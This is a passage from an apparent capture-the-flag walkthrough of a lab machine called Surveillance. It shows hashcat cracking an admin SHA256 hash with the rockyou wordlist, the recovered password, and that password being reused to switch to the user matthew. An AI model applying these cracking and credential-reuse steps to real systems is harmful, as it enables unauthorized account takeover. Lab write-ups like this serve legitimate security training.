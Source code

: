 Still only one user, but a different kind of hash, this time SHA256. I’ll save it to a file and pass it to `hashcat`:

```

$ hashcat ./admin-sha256.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
...[snip]...
The following 8 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   1400 | SHA2-256                                                   | Raw Hash
  17400 | SHA3-256                                                   | Raw Hash
  11700 | GOST R 34.11-2012 (Streebog) 256-bit, big-endian           | Raw Hash
   6900 | GOST R 34.11-94                                            | Raw Hash
  17800 | Keccak-256                                                 | Raw Hash
   1470 | sha256(utf16le($pass))                                     | Raw Hash
  20800 | sha256(md5($pass))                                         | Raw Hash salted and/or iterated
  21400 | sha256(sha256_bin($pass))                                  | Raw Hash salted and/or iterated

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```

It can’t auto recognize the format. I’ll assume its the simplest one to start - SHA256 is fast to crack, and I can go back and try to research more if it doesn’t work.

```

$ hashcat ./admin-sha256.hash -m 1400 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
...[snip]...
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec:starcraft122490
...[snip]...

```

It completes in a matter os seconds.

### Shell

This password works with `su` and the matthew user on Surveillance:

```

www-data@surveillance:~$ su - matthew
Password: 
matthew@surveillance:~$

```

It also works over SSH:
